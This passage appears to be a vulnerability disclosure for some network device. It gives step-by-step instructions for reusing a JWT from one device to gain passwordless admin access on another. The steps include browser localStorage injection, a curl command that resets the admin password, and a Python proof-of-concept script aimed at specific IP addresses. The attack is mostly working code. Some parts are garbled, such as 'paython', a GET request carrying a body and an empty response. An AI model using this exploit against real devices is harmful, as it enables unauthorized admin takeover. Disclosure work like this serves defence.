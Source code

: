     1. Open the browser on Device 2 at http://208.129.3.4/

    2. Open the browser's developer console (F12)

    3. Insert the JWT into local storage:

    ```javascript
    localStorage.setItem("jwt", '"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."');
    ```
    Ensure the value starts and ends with `"`
    Example:
    ```javascript
    localStorage.setItem("jwt", '"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."');
    ```
✅ **Step 3: Refresh the Browser**

    Refresh the page (F5)

    The device will log in as an admin without requiring a password!

✅ **Step 4: Confirm Access and Exploit the Device**
change the admin password:
```bash
curl -X GET 'http://208.129.3.4/setPassword' \
 -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..'\   
 --data-raw '{"user":"admin","password":"admin"}' 
```
Example Response:
```json
{
  
}

```

---

## **Automated Exploit (Python PoC Script)**

The following Python script automates the attack process:
```paython
import requests
import json

# Source Device Login
source_device = "http://137.18.2.1/login"
target_device = "http://208.129.3.4/ntpinfo"

login_data = {
    "username": "admin",
    "password": "passd1"
}

# Step 1: Get JWT from Source Device
response = requests.post(source_device, json=login_data)
jwt = response.json().get("jwt")

print(f"[+] JWT obtained: {jwt}")

# Step 2: Use JWT on Target Device
headers = {
    "Authorization": f"Bearer {jwt}"
}

# Step 3: Access Target Device
response = requests.get(target_device, headers=headers)

```